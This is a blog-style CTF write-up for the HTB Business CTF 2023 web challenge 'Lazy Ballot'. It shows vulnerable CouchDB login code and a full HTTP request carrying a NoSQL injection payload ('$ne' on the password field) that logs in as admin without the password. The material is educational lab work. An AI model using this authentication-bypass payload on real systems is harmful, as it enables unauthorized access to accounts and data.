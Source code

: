 ```yaml
---
layout: post
title: HTB Business CTF 2023 Writeup - Web - Lazy Ballot
date: 2023-07-19
type: post
tags:
- Writeup
- Hacking
- BusinessCTF
- CTF
permalink: /2023/07/HTBBusinessCTF/WebLazyBallot
img: 2023/07/HTBBusinessCTF/LazyBallot/LazyBallotDescription.png
---
```


In this challenge, I had to exploit a NoSQL injection vulnerability in CouchDB.

> Very Easy

> As a Zenium State hacker, your mission is to breach Arodor's secure election system, subtly manipulating the results to create political chaos and destabilize their government, ultimately giving Zenium State an advantage in the global power struggle.

The challenge provided the source code to the web application. I looked at the code to log in the application.


```js
async loginUser(username, password) {
    const options = {
        selector: {
            username: username,
            password: password,
        },
    };

    const resp = await this.userdb.find(options);
    if (resp.docs.length) return true;

    return false;
}
```

It was quering CouchDB to validate the username and password provided by the user. There was no validation or escaping done on the data. I looked for how to do [NoSQL injection in CouchDB](https://owasp.org/www-pdf-archive/GOD16-NOSQL.pdf). Turned out it's the same as in MongoDB.

I intercepted the login request in Caido and crafted the injection payload.

```http
POST /api/login HTTP/1.1
Host: 94.237.52.136:30851
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://94.237.52.136:30851/login
Content-Type: application/json
Origin: http://94.237.52.136:30851
Connection: keep-alive
Cookie: connect.sid=s%3A0vAPBnbt2c92D38LlRLoFbhpLjvLCoAa.%2BZxScmLRomvTFUyYmySOdTNZI8BBQkVyVp4PFwRk2J4
Content-Length: 42

{"username":"admin","password":{"$ne":""}}
```

I was logged in.

![Logged In](/assets/images/2023/07/HTBBusinessCTF/LazyBallot/LoggedIn.png "Logged In")

I went to the last page and found the flag.

![Flag](/assets/images/2023/07/HTBBusinessCTF/LazyBallot/Flag.png "Flag")
